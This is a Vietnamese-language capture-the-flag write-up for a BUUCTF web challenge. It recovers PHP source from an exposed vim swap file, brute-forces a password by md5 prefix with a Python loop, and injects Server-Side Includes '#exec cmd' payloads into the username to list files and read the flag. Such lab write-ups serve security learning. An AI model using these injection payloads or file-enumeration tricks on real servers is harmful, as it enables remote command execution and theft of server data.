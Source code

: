 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/789de156-c5ca-4a17-8904-a230f8a7d9d3)

Ban đầu có thử sqli nhưng mà ko cho ra kết quả gì mấy, nên mình đi scan file xem có gì mới không.Nhưng mà scan bằng dirsearch thì ko ra gì hết thì mình nghĩ là tempfile thôi.

```
.{PAGE}.php
{PAGE}.php.swp
.{PAGE}.php.swp
{PAGE}.php~
{PAGE}.phps
{PAGE}.bak
{PAGE}.tmp
{PAGE}.inc
```

Sau khi thử thì được 1 địa chỉ là index.php.swp. File .swp là file được tạo ra bởi các text editor trên linux như vim hay nano, chứa phiên bản recovery của file đang được mở. Và được source code như sau:

```php
<?php
	ob_start();
	function get_hash(){
		$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!@#$%^&*()+-';
		$random = $chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)].$chars[mt_rand(0,73)];//Random 5 times
		$content = uniqid().$random;
		return sha1($content); 
	}
    header("Content-Type: text/html;charset=utf-8");
	***
    if(isset($_POST['username']) and $_POST['username'] != '' )
    {
        $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6)) {
            echo "<script>alert('[+] Welcome to manage system')</script>";
            $file_shtml = "public/".get_hash().".shtml";
            $shtml = fopen($file_shtml, "w") or die("Unable to open file!");
            $text = '
            ***
            ***
            <h1>Hello,'.$_POST['username'].'</h1>
            ***
			***';
            fwrite($shtml,$text);
            fclose($shtml);
            ***
			echo "[!] Header  error ...";
        } else {
            echo "<script>alert('[!] Failed')</script>";
            
    }else
    {
	***
    }
	***
?>
```

Để đăng nhập thì ta phải thỏa cái này

```php
 $admin = '6d0bc1';
        if ( $admin == substr(md5($_POST['password']),0,6))
```

Ta cẩn phải tìm 6 kí tự đầu của password mà đã md5 phải có giá trị bằng 6d0bc1, còn username thì sao cũng được

```python
import hashlib
for i in range(10000000):
    if hashlib.md5(str(i).encode('utf-8')).hexdigest()[0:6] == '6d0bc1':
        print(i)
//output: 9162671
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/a9d01fd8-8694-406f-b8ce-49fe9f74ce13)

Nhưng vẫn không được, nhưng để ý kĩ ở response có 1 header chứa file .shtml

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/bfb93f27-a802-4926-8902-0f7ec0f75a2c)

Nó in ra tên username ta dùng để đăng nhập.Khi ta đăng nhập thì username của ta sẽ được ghi vào file. shtml, theo đó nó thường đi theo với 1 lỗ hổng SSI.

https://owasp.org/www-community/attacks/Server-Side_Includes_(SSI)_Injection

Giở chỉ cần đồi username thành payload tấn công, mỗi username thì file shtml sẽ khác nhau
```
<!--#exec cmd="ls ../" -->
```
![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4a451269-23da-4d33-942f-477869c48db4)

Có tên flag rồi bây giờ lấy flag thôi

```
<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2" -->
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bf48e8d-8c9d-410a-a39e-0759e3608582)

